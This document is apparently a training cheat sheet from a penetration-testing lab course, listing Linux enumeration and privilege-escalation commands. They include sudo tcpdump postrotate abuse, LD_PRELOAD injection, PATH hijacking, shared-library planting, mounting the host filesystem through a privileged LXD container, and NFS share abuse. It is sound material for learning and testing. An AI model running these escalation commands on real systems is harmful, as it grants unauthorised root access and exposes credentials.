 | **Command**                                                                         | **Description**                                       |
| ----------------------------------------------------------------------------------- | ----------------------------------------------------- |
| `ssh htb-student@<target IP>`                                                       | SSH to lab target                                     |
| `ps aux \| grep root`                                                               | See processes running as root                         |
| `ps au`                                                                             | See logged in users                                   |
| `ls /home`                                                                          | View user home directories                            |
| `ls -l ~/.ssh`                                                                      | Check for SSH keys for current user                   |
| `history`                                                                           | Check the current user's Bash history                 |
| `sudo -l`                                                                           | Can the user run anything as another user?            |
| `ls -la /etc/cron.daily`                                                            | Check for daily Cron jobs                             |
| `lsblk`                                                                             | Check for unmounted file systems/drives               |
| `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`                       | Find world-writeable directories                      |
| `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`                       | Find world-writeable files                            |
| `uname -a`                                                                          | Check the Kernel versiion                             |
| `cat /etc/lsb-release`                                                              | Check the OS version                                  |
| `gcc kernel_expoit.c -o kernel_expoit`                                              | Compile an exploit written in C                       |
| `screen -v`                                                                         | Check the installed version of `Screen`               |
| `./pspy64 -pf -i 1000`                                                              | View running processes with `pspy`                    |
| `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`                     | Find binaries with the SUID bit set                   |
| `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null`                     | Find binaries with the SETGID bit set                 |
| `sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root` | Priv esc with `tcpdump`                               |
| `echo $PATH`                                                                        | Check the current user's PATH variable contents       |
| `PATH=.:${PATH}`                                                                    | Add a `.` to the beginning of the current user's PATH |
| `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`                   | Search for config files                               |
| `ldd /bin/ls`                                                                       | View the shared objects required by a binary          |
| `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart`                            | Escalate privileges using `LD_PRELOAD`                |
| `readelf -d payroll \| grep PATH`                                                   | Check the RUNPATH of a binary                         |
| `gcc src.c -fPIC -shared -o /development/libshared.so`                              | Compiled a shared libary                              |
| `lxd init`                                                                          | Start the LXD initialization process                  |
| `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`                  | Import a local image                                  |
| `lxc init alpine r00t -c security.privileged=true`                                  | Start a privileged LXD container                      |
| `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true`      | Mount the host file system in a container             |
| `lxc start r00t`                                                                    | Start the container                                   |
| `showmount -e 10.129.2.12`                                                          | Show the NFS export list                              |
| `sudo mount -t nfs 10.129.2.12:/tmp /mnt`                                           | Mount an NFS share locally                            |
| `tmux -S /shareds new -s debugsess`                                                 | Created a shared `tmux` session socket                |
| `./lynis audit system`                                                              | Perform a system audit with `Lynis`                   |